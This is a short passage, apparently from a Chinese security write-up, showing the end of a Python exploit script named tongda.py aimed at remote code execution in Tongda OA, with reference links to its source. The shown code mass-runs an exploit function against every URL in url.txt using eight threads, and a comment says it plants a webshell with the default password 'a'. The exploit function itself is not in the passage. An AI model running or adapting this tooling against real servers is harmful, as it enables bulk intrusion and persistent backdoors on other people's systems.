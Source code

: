 
    def multithreading(funcname, filename="url.txt", pools=5):
        works = []
        with open(filename, "r") as f:
            for i in f:
                func_params = [i.rstrip("\n")]
                works.append((func_params, None))
        pool = threadpool.ThreadPool(pools)
        reqs = threadpool.makeRequests(funcname, works)
        [pool.putRequest(req) for req in reqs]
        pool.wait()


    if __name__ == "__main__":
        multithreading(exp, "url.txt", 8)      # Default threads 8
    
    # Usage: python tongda.py
    # Default webshell password:a

参考链接
--------

> https://www.yuque.com/xiaoxuan-3vnio/nucw6f/wbqg8f
>
> https://github.com/clm123321/tongda\_oa\_rce/blob/master/tongda.py
